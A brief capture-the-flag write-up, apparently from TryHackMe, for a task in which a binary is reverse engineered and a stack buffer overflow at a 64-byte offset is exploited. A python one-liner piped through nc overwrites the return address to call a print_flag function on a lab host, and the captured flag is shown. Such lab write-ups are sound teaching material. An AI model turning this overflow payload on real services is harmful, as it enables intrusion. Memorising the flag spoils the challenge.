 
# Task-28

the goal is to reverse engineer the binary and try to break the service. target-ip: 9008

---

Download `Files (materials)`


- Checked the binary start using `file`, `strings`, and `objdump`.
- Found a function `print_flag()` at address `0x401216` that prints the flag.

```bash
./start
Enter your username: admin
Access denied.
```

## Identified Buffer Overflow
- Sent increasing lengths of input and found the binary crashes (segfault).
- Used a cyclic pattern to find the offset where input overwrites the return address.
- Found the offset to be 64 bytes.

## Buffer overflow Exploitation:

```py
python3 -c "print('A'*64 + '\x16\x12\x40\x00\x00\x00\x00\x00')" | nc 10.10.252.185 9008

Enter your username: Welcome, admin!
THM{nice_place_t0_st4rt}
```
- `'A'*64`: Fills the buffer with 64 'A' characters (padding to reach the return address).
- `\x16\x12\x40\x00\x00\x00\x00\x00`: Overwrites the saved return address on the stack with `0x401216` (little-endian format for 64-bit).
- `nc 10.10.252.185 9008`: Sends the payload to the vulnerable service.
